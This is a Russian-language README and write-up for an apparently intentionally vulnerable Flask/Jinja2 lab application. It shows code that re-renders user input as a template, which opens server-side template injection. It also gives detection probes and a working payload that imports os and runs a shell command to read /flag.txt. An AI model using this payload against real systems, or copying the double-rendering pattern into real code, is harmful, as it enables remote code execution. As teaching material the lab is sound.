






## Описание уязвимости
Описание уязвимости содержится в файле README по ссылке:
[Server_side_template_injection](https://github.com/Truncheon-eng/server_side_template_injection/blob/main/README.md)
## Способы защиты
Описание способов защиты находится в файле README по ссылке:
[Server_side_template_injection](https://github.com/Truncheon-eng/server_side_template_injection/blob/main/README.md)
## Запуск приложения
Для запуска приложения можно использовать, как `docker`, так и `docker-compose`. Запуск через `docker` аналогичен запуску [Server_side_template_injection](https://github.com/Truncheon-eng/server_side_template_injection/blob/main/README.md).
### Запуск через docker-compose
Для запуска приложения необходимо:
-  скачать репозиторий и перейти в папку с ним
-  заменить порт из файла `docker-compose.yaml`, если он занят(порт по умолчанию 9000)
- для запуска необходимо прописать в терминале:
```shell
docker-compose up
```
- в случае, если необходимо поменять флаг, то нужно менять содержимое файла `flag.txt`
## Описание уязвимости в приложении
В приложении имеется форма. У этой формы имеется 5 параметров:
- firstName
- lastName
- gender
- age
Все эти параметры используются при создании первой строки шаблона:
```python
def gen_template_string(name:str, surname: str, gender: int, age: int):
    template_string = render_template(
        "card.html",
        firstName = name,
        lastName = surname,
        gender = gender,
        age = age
    )
    return template_string
```
Кроме того, к шаблону добавляется "уникальный" идентификатор:
```python
final_template_string = gen_template_string(name, surname, gender, age) + uniq_data
return jinja2.Template(final_template_string).render(
	uniq_id = uuid.uuid4()
)
```
Так как генерация шаблонов происходит несколько раз, появляется SSTI.
## Решение
**Флаг содержится  в  `/flag.txt`**
Введём какую-то информацию в форму и посмотрим, что нам возвращается:

Видим, что переданные `Hello` и `Sth` в поле `firstName` и `lastName`, также отобразились в ответе:

Всё это нас заставляет задуматься, что приложение использует какой-то шаблонизатор. По этой причине воспользуемся следующей картинкой для определения самого шаблонизатора.

Первая полезная нагрузка `${7*7}` просто отображается в самом шаблоне:

Вторая полезная нагрузка `{{7*7}}` уже отображается в ответе, как 49:

Третья полезная нагрузка `{{7*'7'}}` отображается в `7777777`:

По этой причине мы делаем вывод, что здесь используется jinja.
Дальнейшая эксплуатация заключается в выходе из окружения и получения доступа к модулю `__import__`. Для этого можно использовать различные полезные нагрузки, которые используют примитивные элементы, как `'', dict, ()` и дальше наследуются от них. Но я воспользуюсь таким наследованием:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```
В конечном итоге получаю содержимое флага:
